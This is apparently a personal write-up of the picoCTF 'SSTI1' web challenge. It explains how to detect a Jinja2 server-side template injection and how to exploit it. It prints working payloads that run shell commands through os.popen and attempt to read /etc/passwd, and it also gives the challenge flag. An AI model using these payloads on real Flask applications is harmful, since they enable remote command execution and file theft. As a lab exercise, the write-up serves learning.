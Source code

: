 🔖 Challenge Info

    Challenge Name: SSTI1

    Category: Web Exploitation

    CTF Platform: picoCTF

    Date Solved: 2025-05-02

📜 Challenge Description

    I made a cool website where you can announce whatever you want! Try it out!
    Additional details will be available after launching your challenge instance.

🧪 Recon & Enumeration

    I started by inspecting the webpage, but I didn’t find anything useful at first glance.

    I checked the provided hint, which stated:

        “Server Side Template Injection”

    I paused for around 1–2 hours to study SSTI (Server-Side Template Injection) and how to detect and exploit it.

To test for SSTI, I used the following payload:

    {{7*7}}

When I submitted it in the input field, the output was:

    49

This confirmed the presence of SSTI.
🧨 Vulnerability Identified

    Vulnerability: Server-Side Template Injection

    Template Engine: Likely Jinja2 (based on the payload behavior)

💣 Exploitation Steps

    I researched common SSTI payloads for Jinja2.

    I found this payload, which tries to read the /etc/passwd file:

{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

However, this didn't work in my case, so I looked for simpler payloads.

I used this payload to execute the ls command:

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

This returned:

__pycache__ app.py flag requirements.txt

Then, I used the cat command to read the flag:

{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

Output:

    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

Note : 

Step-by-Step Breakdown
1. config

    In Flask apps, config is often available in the template context.

    It’s an instance of the Config class, which holds configuration values.

2. config.__class__

    Accesses the class of the config object: <class 'flask.config.Config'>.

3. __init__

    Gets the __init__ method of the class, which is the constructor function.

4. __globals__

    Every Python function has a __globals__ attribute: a dictionary of all the global variables/modules accessible in that function.

    Since __init__ is a method, you can use it to access the global scope of the module where flask.config.Config is defined — including the os module if it was imported there.

5. ['os']

    Retrieves the os module from the __globals__ dictionary.

6. .popen('ls')

    Uses os.popen() to run the shell command ls (list directory contents).

    This returns a file-like object.

7. .read()

    Reads the output of the ls command from the file-like object.

8. {{ ... }}

    Jinja2 syntax to evaluate the expression and display the result in the HTML output.